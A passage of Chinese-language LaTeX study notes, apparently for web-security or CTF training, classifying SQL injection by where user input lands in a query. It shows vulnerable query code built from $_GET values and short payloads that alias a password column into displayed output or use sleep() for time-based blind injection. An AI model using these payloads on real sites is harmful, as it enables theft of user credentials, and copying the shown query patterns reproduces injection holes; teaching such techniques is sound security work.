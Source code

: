 堆叠注入：目标开启了多语句执行，可以一次注入多行命令，任意修改表和数据库。

\subsection{注入点}
从SQL语法角度讲注入技巧。

\subsubsection*{SELECT注入}
\paragraph*{注入点在select\_expr}
源码形式: 
\begin{lstlisting}
SELECT $\$${_GET['id']}, content FROM wp_news
\end{lstlisting}
且页面只会显示结果中的'title','content'列。
注入方法：时间盲注或AS别名。
\begin{lstlisting}
别名: id = (SELECT pwd FROM wp_user) AS title
\end{lstlisting}

\paragraph*{注入点在table\_reference}
源码形式: 
\begin{lstlisting}
SELECT title FROM $\$${_GET['table']}
\end{lstlisting}
且页面只会显示结果中的'title','content'列。
注入方法：AS别名。
\begin{lstlisting}
别名: table = (SELECT pwd AS title FROM wp_user)
\end{lstlisting}

\paragraph*{注入点在WHERE或HAVING后}
源码形式：
\begin{lstlisting}
SELECT title FROM wp_news WHERE id=$\$${_GET['id']}
\end{lstlisting}
最常见的，和上一节的方法一样，注意判断和闭合引号和括号。

\paragraph*{注入点在GROUP\ BY或ORDER\ BY后}
源码形式：
\begin{lstlisting}
SELECT title FROM wp_news GROUP BY $\$${_GET['title']}
\end{lstlisting}
判断和注入：判断下列语句是否有效，而后时间盲注。
\begin{lstlisting}
title = id desc,(if(1,sleep(1),1))
\end{lstlisting}

